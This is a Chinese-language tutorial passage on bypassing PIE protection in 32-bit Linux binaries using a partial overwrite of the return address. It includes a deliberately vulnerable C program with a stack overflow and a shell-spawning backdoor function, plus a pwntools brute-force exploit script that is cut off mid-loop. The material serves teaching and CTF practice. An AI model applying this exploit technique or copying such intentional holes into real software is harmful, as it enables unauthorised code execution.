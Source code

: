 ```
gcc -fno-stack-protector -no-pie -s test.c -o test        #不开启PIE保护
```

不开启PIE保护的时候每次运行时加载地址不变

[![](https://s2.ax1x.com/2019/04/30/EGusk4.png)](https://s2.ax1x.com/2019/04/30/EGusk4.png)

开启PIE保护的时候每次运行时加载地址是随机变化的

[![](https://s2.ax1x.com/2019/04/30/EGu40O.png)](https://s2.ax1x.com/2019/04/30/EGu40O.png)

可以看出，如果一个程序开启了PIE保护的话，对于ROP造成很大影响，下面来讲解一下绕过PIE开启的方法



## 一、partial write

partial write就是利用了PIE技术的缺陷。我们知道，内存是以页载入机制，如果开启PIE保护的话，只能影响到单个内存页，一个内存页大小为0x1000，那么就意味着不管地址怎么变，某一条指令的后三位十六进制数的地址是始终不变的。因此我们可以通过覆盖地址的后几位来可以控制程序的流程

```
#include &lt;stdio.h&gt;
#include &lt;unistd.h&gt;
#include &lt;stdlib.h&gt;
void houmen()
`{`
    system("/bin/sh");
`}`
void vuln()
`{`
    char a[20];
    read(0,a,0x100);
    puts(a);
`}`
int main(int argc, char const *argv[])
`{`
    vuln();
    return 0;
`}`
# gcc -m32 -fno-stack-protector  -s test.c -o test
```

明显的栈溢出，通过gdb调试，直接来到vuln函数的ret处，可以看到houmen函数的地址和返回地址只有后几位不一样，那么我们覆盖地址的后4位即可

[![](https://s2.ax1x.com/2019/04/30/EGuTtH.png)](https://s2.ax1x.com/2019/04/30/EGuTtH.png)

由于地址的后3位一样，所以覆盖的话至少需要4位，那么倒数第四位就需要爆破，爆破范围在0到0xf

exp：

```
#coding:utf-8
import random
from pwn import *
context.log_level = 'debug'
context.terminal = ['deepin-terminal', '-x', 'sh' ,'-c']

offset = 0x1c+4
list1 = ["x05","x15","x25","x35","x45","x55","x65","x75","x85","x95","xa5","xb5","xc5","xd5","xe5","xf5"]

while True:
    try:
        p = process("./test")
        payload = offset*"a"+"x7d"+random.sample(list1,1)[0]
        p.send(payload)
        p.recv()
        p.recv()
    except Exception as e:
```